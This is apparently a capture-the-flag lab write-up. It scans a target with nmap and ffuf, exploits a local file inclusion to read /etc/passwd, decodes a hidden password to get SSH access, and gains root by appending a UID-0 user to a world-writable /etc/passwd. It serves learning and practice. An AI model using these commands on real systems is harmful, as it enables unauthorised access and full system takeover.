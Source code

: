 24 sep 2021 
-----------------

# Scanning

*intial*
```bash
export IP=3.127.142.53
nmap -sV -v $IP -oN nmap/intial
```
*Results*
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```


# Enumeration

*directory brute-force*
```bash
ffuf -c -w /usr/share/wordlists/dirb/common.txt -u http://3.127.142.53/FUZZ  
```

```bash
index.php               [Status: 200, Size: 791, Words: 109, Lines: 15]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
```

*Exploring web application*

the parameter `view` which is used when press on tabs in the page is vulnerable to lfi , we can read /etc/passwd

![image](https://user-images.githubusercontent.com/67979878/134611976-39f1a9fa-ab68-4568-8f4e-4d8b58f9a0cc.png)

- checking the source codes of the pages we can see at contact downthere in the page

```
<!-- my0wns3cr3t.sec -->
```

let's try access /my0wns3cr3t.sec , it returns a base64 encoded text let's see

after some decoding we have `B100dyPa$$w0rd` seems a password ,but for who ?

we have 2 potential users: 
```
john 
ubuntu
```
let's try ssh to any of them .

yes it is for john :D 

# privilege escalation Factors 

running linuxEnum.sh we can see this part :
```
Can we read/write sensitive files:
-rwxrwxrwx 1 root root 1657 Sep 24 03:30 /etc/passwd
```

so we can simply create a new user as a group root !

```bash
openssl passwd hacker          
GlkByIs88VWGM
```
using :

Mesbah:GlkByIs88VWGM:0:0:root:/root:/bin/bash
```bash
echo "Mesbah:GlkByIs88VWGM:0:0:root:/root:/bin/bash" >> /etc/passwd
```
![image](https://user-images.githubusercontent.com/67979878/134614702-391454e2-ab99-4ac5-9fc9-36c023ebd1f7.png)
